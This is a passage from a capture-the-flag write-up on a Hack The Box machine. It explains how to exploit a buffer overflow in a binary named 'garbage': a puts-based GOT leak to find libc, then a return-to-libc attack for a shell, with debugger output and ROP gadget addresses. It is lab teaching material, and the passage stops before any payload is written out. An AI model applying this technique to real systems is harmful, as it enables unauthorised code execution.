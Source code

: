     0040| 0x7fffffffdf90 --> 0x0
    0048| 0x7fffffffdf98 --> 0x7fffffffe068 --> 0x7fffffffe381 ("/media/sf_CTFs/hackthebox/ellingson-10.10.10.139/garbage")                                                                                                                     
    0056| 0x7fffffffdfa0 --> 0x100040000
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x0000000000401618 in auth ()
    

I can see 8 `B`s waiting to be moved into RIP.

### Strategy

I’m going to do this in two stages. At the start, I only know the addresses of
the functions in the PLT. So I will use one of those, `puts`, to leak the
address of one of the functions from the GOT. Then, I can use that to find the
libc base address in the current program. On returning from that `puts`, I’ll
have it return to the main program, which I’ll overflow again. This time,
knowing the libc address space, I can do a normal return to libc attack. I’ll
construct a payload to run a shell.

If you’re not comfortable with PLT and GOT, you should check out [this video
from LiveOverflow](https://www.youtube.com/watch?v=kUk5pw4w0h4&vl=en).

### Collect Addresses

For stage one, I’m going to call puts to leak the address. I’ll need the puts
PLT address to call, a `pop rdi` gadget to load something into RDI to `put`,
and the `put` GOT address (the value that I’m leaking).

#### pop rdi

To get the `pop rdi` gadget, I’ll use [rop-tool](https://github.com/t00sh/rop-
tool).

    
    
    root@kali# rop-tool gadget garbage | grep rdi
     0x000000000040179b -> pop rdi; ret ; 
    

#### puts PLT and GOT

I need the `puts` PLT address. This is the address I’ll see in the main code
when I run `disassemble main` in `gdb`:

    
    
    gdb-peda$ disassemble main
    Dump of assembler code for function main:
    ...[snip]...
       0x000000000040164a <+49>:    lea    rdi,[rip+0xb3f]        # 0x402190
       0x0000000000401651 <+56>:    call   0x401050 <puts@plt>
    

I also need the address in the GOT for `puts`. This will hold the pointer to
`puts` in libc, and is what I want to leak. If I run `disassemble [plt
address]`, I can see the code there:
